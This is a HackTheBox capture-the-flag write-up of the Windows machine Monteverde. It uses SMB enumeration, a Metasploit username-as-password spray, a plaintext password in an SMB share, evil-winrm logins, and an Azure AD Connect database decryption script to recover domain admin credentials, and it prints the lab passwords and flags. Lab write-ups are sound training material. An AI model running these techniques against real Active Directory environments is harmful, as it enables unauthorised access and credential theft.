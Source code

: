 ```yaml
---
title: Write-up Monteverde Machine
author: pcw3r
date: 2020-06-13 11:33:00 +0800
categories: [HackTheBox, Pentest]
tags: [WINDOWS, MEDIUM, ENUMERATION, ACTIVE-DIRECTORY EXPLOITATION, LAZY-PASSWORD, AZURE EXPLOITATION]
math: true
---
```


**<center>Ref°: HTB-08-Pentest</center>**

![Desktop View]({{ "/assets/img/monteverde/HTB-Badge-Monteverde.png" | relative_url }})

--- Monteverde is a Windows machine that highlights the weakness of a password (lazy password) after a first enumeration and the presence of a password in the SMB service to get our flag user.

A privilege escalation is possible when our user is in Azure Admins security group to perform an attack through AD Azure Connect service to get flag root.

![Desktop View]({{ "/assets/img/monteverde/HTB-Information-Monteverde.png" | relative_url }})

## **<span style='color:#c0392b'>Discovery - Figure out environment</span>**
### Check all services
***
We find interesting services `dns`, `kerberos`, `ldap` and `smb` on their usual ports.

```terminal
$ nmap -A -T5 10.10.10.172 -p-
```

### Enumerate Samba service from enum4linux
***
Enum4linux is a tool for enumerating information from Windows and Samba systems.

We find users : `Administrator, Guest, AAD_987d7f2f57d2, mhope, SABatchJobs, svc-ata, svc-bexec, svc-netapp, dgalanos, roleary, smorgan`

And interesting group Azure Admins with 3 members.

```terminal
$ enum4linux 10.10.10.172
```

```
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
.......
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
```

## **<span style='color:#c0392b'>Foothold - Get into the target </span>**
### Using Lazy Password 
***

We have much possitiblity to exploit Active-Directory Machine.

Reference - Active-Directory exploit toolbox : <https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md>

But longer enumeration and kerberos attack give me nothing. In this situation we're gonna try `lazy passwords`.

Let's see with smb_login module in Metasploit and set true the `USER_AS_PASS`.

```terminal
$ msfconsole
msf5 > search smb_login
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain MEGABANK.LOCAL
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /root/Documents/writeups/monteverde/userfile.txt
msf5 auxiliary(scanner/smb/smb_login) > set USER_AS_PASS true
msf5 auxiliary(scanner/smb/smb_login) > set rhosts 10.10.10.172
msf5 auxiliary(scanner/smb/smb_login) > exploit
```
Result : `Success: 'megabank.local\SABatchJobs:SABatchJobs'`


## **<span style='color:#c0392b'>Lateral Movement - Move through environment</span>**
### Plaintext Password from conf file
***

We enum with SABatchJobs on smb service.

```terminal
$ smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172
$ mount -t cifs //10.10.10.172/users$ share_users -o username=SABatchJobs,password=SABatchJobs
```

We find file in user folder `azure.xml` with a plaintext password : `4n0therD4y@n0th3r$`
This xml seems to be created by azure cmdlet to create password for the user mhope with -AsPlainText attribut.

![Desktop View]({{ "/assets/img/monteverde/HTB-Images-Monteverde-PasswordMhope.png" | relative_url }})


### Remote Service WinRM login
***

We can connect now with evil-winrm tool. This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985).

WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

Reference - evil-winrm tool : <https://github.com/Hackplayers/evil-winrm>

```terminal
$ evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

### Flag user
***

We flag the user to validate the compromission of the system user.

Result the flag : 4961976bd7d8f4eeb2ce3705e2f212f2


## **<span style='color:#c0392b'>Privilege Escalation - Gain higher-level permissions</span>**
### Azure ADConnect Database exploitation
***

We identified an interesting group at the beginning Azure Admins.
Here our user Mhope belongs to this group : Global Group Memberships Azure Admins

```terminal
PS c:\Users\mhope\Documents> net users mhope
```

After research to find any exploit through group Azure Admins, i finally found the exploitation to compromise Monteverde Machine through the database of Azure ADConnect Service.

Reference - exploit : <https://blog.xpnsec.com/azuread-connect-for-redteam/>

Azure AD Connect is the service installed within the Active Directory environment. It is responsible for syncing and communicating with Azure AD and is what the majority of this post will focus on.

From mhope user we have the ability to extract credential of the account (with the necessary right to perform DCSync Attack) which served during the installation of Azure AD Connect through the decryption of the value encrypted_configuration in the database ADSync.

To do this we use the script of a hackthebox player made available on github : <https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1>

This script is based on the POC created by XPN but with a modification in the ArgumentList to pass when we execute it.
The script then becomes more flexibility.

The decrypted password for the account which served during the installation of Azure AD Connect will be revealed : `d0m@in4dminyeah!`

```terminal
PS C:\Users\mhope\Documents> menu
PS C:\Users\mhope\Documents> Azure-ADConnect -server 10.10.10.172 -db ADSYNC
```
Result :
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!


### Remote Service WinRM login
***

Here the account is administrator, so we dont need to perform DCSync Attack.

We can connect with evil winrm and grab the flag root to valide the compromission of the mahine.

```terminal
$ evil-winrm -i 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!'
```

### Flag root
***

Result : 12909612d25c8dcf6e5a07d1a804a0bc

***

## **<center>Trophy</center>**

> **They might call it the cloud but it is, in fact, just someone else's computer.**
>
> Mark Russinovich
